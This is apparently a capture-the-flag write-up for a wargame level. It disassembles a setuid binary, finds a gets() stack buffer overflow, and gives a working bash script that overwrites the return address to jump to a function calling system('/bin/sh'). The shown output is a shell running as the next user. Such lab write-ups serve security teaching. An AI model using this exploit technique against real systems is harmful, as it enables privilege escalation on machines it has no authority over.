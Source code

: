 # level0

## Steps

### Dissassembly

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level1
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x08048480 <+0>:     55                push   ebp
   0x08048481 <+1>:     89 e5             mov    ebp,esp
   0x08048483 <+3>:     83 e4 f0          and    esp,0xfffffff0
   0x08048486 <+6>:     83 ec 50          sub    esp,0x50
   0x08048489 <+9>:     8d 44 24 10       lea    eax,[esp+0x10]
   0x0804848d <+13>:    89 04 24          mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    e8 ab fe ff ff    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    c9                leave
   0x08048496 <+22>:    c3                ret
End of assembler dump.
```

The stack looks like this:
| Address | Type          | Size |
|---------|---------------|------|
| -72     | char data[72] | 72   |
|   0     | *EBP          |  4   |
|  +4     | *EIP          |  4   |

### Exploitation

This is a typical case of stack-buffer overflow. This means we can overwrite data preceding the buffer on the stack, notably the return pointer preceding the buffer on the stack.

So let's see if we can exploit an existing function in the executable.

To list all functions we can use nm or objdump. Functions are located in the .text section:
```sh
objdump -M intel intel-mnemonic --disassemble ./level1
```

There is a function called `run`, which seams interesting:
```nasm
...
08048444 <run>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	a1 c0 97 04 08       	mov    eax,ds:0x80497c0
 804844f:	89 c2                	mov    edx,eax
 8048451:	b8 70 85 04 08       	mov    eax,0x8048570
 8048456:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804845a:	c7 44 24 08 13 00 00 	mov    DWORD PTR [esp+0x8],0x13
 8048461:	00
 8048462:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048469:	00
 804846a:	89 04 24             	mov    DWORD PTR [esp],eax
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave
 804847f:	c3                   	ret
...

```
We can see a call to system here:
```
8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
```

The argument pushed on the stack is a string that is going to be executed with the level2 user's set-uid privileges.
Let's look at the string's content:
```sh
EXECUTABLE=level1
ADDRESS=0x8048584
gdb -batch -ex "x/s $ADDRESS" "$EXECUTABLE"
```

We can see that there already is all we need to gain the level2 user's privileges:
```
0x8048584:	 "/bin/sh"
```

All that is left to do is to craft an input string long enough to overflow the data array, and the base-pointer's value `*EBP` to be able to overwrite the return-pointer's value `*EIP`.

```sh
> /tmp/level1.sh cat << EOF
```
```bash
#!/usr/bin/env bash
PADDING_LEN=76 # sizeof(data) + sizeof(*EBP)

RETURN_ADDRESS='08048444' # The address of the run function

PADDING=$(printf "%.0sA" $(seq -s' ' "$PADDING_LEN"))
BYTES=$(<<< "$RETURN_ADDRESS" rev | dd conv=swab | xxd -r -p)

echo "$PADDING$BYTES"
```
```sh
EOF
chmod +x /tmp/level1.sh
```

```sh
(/tmp/level1.sh; cat) | ./level1
```
```
Good... Wait what?
whoami
level2
```

